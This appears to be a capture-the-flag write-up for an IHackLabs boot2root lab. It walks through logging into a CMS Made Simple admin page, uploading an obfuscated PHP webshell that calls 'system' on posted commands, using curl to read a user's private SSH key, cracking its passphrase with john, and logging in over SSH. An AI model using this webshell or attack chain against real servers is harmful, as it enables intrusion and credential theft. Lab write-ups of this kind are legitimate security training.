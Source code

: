 # Boot2Root
## About
> Addresses:
> Mirror 1: preq01.ihacklabs.com
> Mirror 2: preq02.ihacklabs.com
> Mirror 3: preq03.ihacklabs.com

> NOTE: Mirror addresses are the same challenge, just attack one of them.
> NOTE 2: Machines will be restored every hour.

> Autor: IHackLabs


## Info
- IP: 54.36.134.35
- CMS made simple is running on the server

# Start
- Admin login page `http://preq03.ihacklabs.com/admin/login.php` or `http://54.36.134.35/admin/login.php`
- CMS made simple exploit from `hackthebox writeup` box will work
- We have the admin page now (`admin:lalala`)
- We have to upload a webshell instead of a revshell cuz we wanna hide our ip like a 1337 H4x0R  
![upload](pix/upload.png)
- We use the webshell below:

```php
<?php

    {

        $pass = "21232f297a57a5a743894a0e4a801fc3"; // admin

        $A = chr(0x73);
        $B = chr(0x79);
        $C = chr(0x73);
        $D = chr(0x74);
        $E = chr(0x65);
        $F = chr(0x6d);

        $hook = $A.$B.$C.$D.$E.$F;

        if ($pass == md5($_POST["password"]))
        {

            $hook($_POST["cmd"]);

        }
        else
        {

            die();

        }

    }

?>
```

- We will name it `shell.txt` cuz **no php upload enabled** on the admin page
- We have **uploaded** it
- Now we have to change the `.txt` to `.php` to be able to use it :D  
![invalid](pix/invalid_name.png)
- We have to copy instead of rename  
![copy](pix/copy.png)
- Use it with `curl http://54.36.134.35/uploads/anyad/shell.php --data "password=admin&cmd=id"` from the *attacker* terminal  
![rce](pix/rce.png)

## Foundings
- Users that have home dirs: `prequal`
- We have found his `/home/prequal/backup/id_rsa` file
```
curl http://54.36.134.35/uploads/anyad/shell.php --data "password=admin&cmd=cat /home/prequal/backup/id_rsa"
```
- This file is encrypted so we have to crack it
## Cracking the `id_rsa` and connect as user 
- We use `ssh2john id_rsa_enc > id_rsa_enc.hash` now.
- And then we can `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_enc.hash`
- We got the password `12345678`
## Decrypt the id_rsa with the password
- We will use `openssl rsa -in id_rsa_enc -out id_rsa`
- We have the **id_rsa** file now but we need to `chmod 400 id_rsa` too
## Sshing in
- Now we have the **id_rsa** so we can easily ssh in  
`ssh -i id_rsa prequal@54.36.134.35`

# WE GOT THE SHELL AS prequal
```
cat local.txt
H-c0n{3ab7568bdae26ac11f6b9e14cad546f9}
```





	



